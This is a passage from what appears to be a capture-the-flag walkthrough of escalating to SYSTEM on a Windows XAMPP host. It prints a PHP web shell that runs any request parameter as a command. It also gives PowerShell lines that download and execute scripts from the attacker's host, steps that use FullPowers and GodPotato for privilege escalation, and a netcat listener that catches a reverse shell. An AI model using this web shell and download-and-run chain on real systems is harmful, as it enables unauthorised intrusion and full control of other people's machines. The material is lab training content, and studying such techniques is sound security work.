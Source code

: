 Now, we need to execute FullPowers.exe from httpd account (nt authority\local service).

We will attempt to automate the whole process, from the `cmd.php` file.

First, the `cmd.php` will execute FullPowers (need to download it first), that will then download and execute a powershell file `privesc.ps1` :

```php
<?php
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;
} else {
	echo "<pre>"; $cmd = "C:\\xampp\\htdocs\\uploads\\FullPowers.exe -c \"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/privesc.ps1')\"";
	system( $cmd ); echo "</pre>"; die;
}
?>
```

`privesc.ps1`  will allow us to execute powershell commands, and avoid complex escaping from PHP file. This script will download GodPotato and execute it :

```powershell
# download godpotato
Invoke-WebRequest -URI http://10.10.14.23:9090/GodPotato-NET4.exe -OutFile c:\xampp\htdocs\uploads\GodPotato.exe
# call godpotato
c:\xampp\htdocs\uploads\GodPotato.exe -cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell2.ps1')"
```

In order to execute it all, we need to upload `FullPowers.exe` and the `cmd.php` :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/FullPowers.exe -OutFile c:\xampp\htdocs\uploads\FullPowers.exe
Invoke-WebRequest -URI http://10.10.14.23:9090/cmd.php -OutFile c:\xampp\htdocs\uploads\cmd.php
```

And open a listener :

```shell
rlwrap -cAr nc -lvnp 4446
```

then finally call:

[http://10.10.11.234/uploads/cmd.php](http://10.10.11.234/uploads/shell-up.php)

This will :
- execute `cmd.php`
- that will execute FullPowers.exe to recover full privileges
- when FullPowers.exe has completed, it will download and execute `privesc.ps1`
- `privesc.ps1` will download and execute GodPotato to get a SYSTEM account access
- when succeded, GodPotato download and execute `shell2.ps1` (as SYSTEM account)
- `shell2.ps1` will open a reverse shell on port 4446

System Shell :
